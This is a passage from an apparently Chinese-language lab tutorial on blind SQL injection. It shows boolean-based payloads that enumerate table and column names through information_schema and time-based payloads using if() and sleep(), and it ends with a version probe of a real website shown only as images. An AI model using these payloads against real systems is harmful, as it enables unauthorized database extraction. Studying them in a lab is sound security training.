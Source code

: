 输入`1' and (select count(table_name) from information_schema.tables where table_schema=database())=1 #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/blind1.png)

输入`1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/blind0.png)

说明数据库中有两个表，接着挨个猜解表名。

先猜解第一个表表名的长度：

输入`1' and length((select table_name from information_schema.tables where table_schema=database() limit 0, 1))=1 #`，返回如下所示：

![]({{ site.url }}/images/sql-injection/blind1.png)

直到输入`1' and length((select table_name from information_schema.tables where table_schema=database() limit 0, 1))=9 #`时，才显示存在。所以第一个表表名长度为 9。

同理可得第二个表表名长度为 5。

接着就是使用上一步中的二分法猜测表名。

最终可以得到两个表表名分别为`guestbook`和`users`。

#### 基于布尔：猜解表中的字段名

使用类似的方法，猜解表中字段数量：

```1' and (select count(column_name) from information_schema.columns where table_name='users' and table_schema=database()) = 1 #```

最终可得`users`表有 8 个字段。

接着就是使用二分法挨个猜解字段名。

#### 基于布尔：猜解数据

同样，使用二分法，猜解数据（无论是自制还是用诸如`sqlmap`之类，这一步还是使用工具吧，手注太累了。不过著名如`sqlmap`的工具可能会被针对性的防护措施欺骗，所以有条件的话还是自己写工具）。

#### 基于时间：判断是否存在注入，注入是字符型还是数字型

**背景知识**

`IF(Condition,A,B)` 当`Condition`为`TRUE`时，返回`A`；当`Condition`为`FALSE`时，返回`B`。

输入`1 and sleep(5) #`，可以发现网页很快返回，没有明显延迟；  
输入`1' and sleep(5) #`，可以发现大概过了 5 秒，网页才加载完毕。说明是字符型注入。

#### 基于时间：猜解当前数据库名

首先猜解数据库名的长度：

输入`1' and if(length(database())=1, sleep(5), 1) #`，无明显延迟；  
输入`1' and if(length(database())=4, sleep(5), 1) #`，可以发现大概延迟 5 秒，说明数据库名长度为 4。

同理使用类似的方法，配合`if()`和`sleep()`可以猜解出剩余部分。不过使用基于时间的盲注耗时可能很长。另外，如果服务器对查询结果为空的语句主动加上`sleep`，那么将使基于时间的盲注的准确性受到影响

**拓展-版本探测**

下面对一个网站进行测试。我们可以通过盲注来获得版本信息：

![]({{ site.url }}/images/sql-injection/sqlinjeciton2.png)

![]({{ site.url }}/images/sql-injection/sqlinjeciton3.png)
```
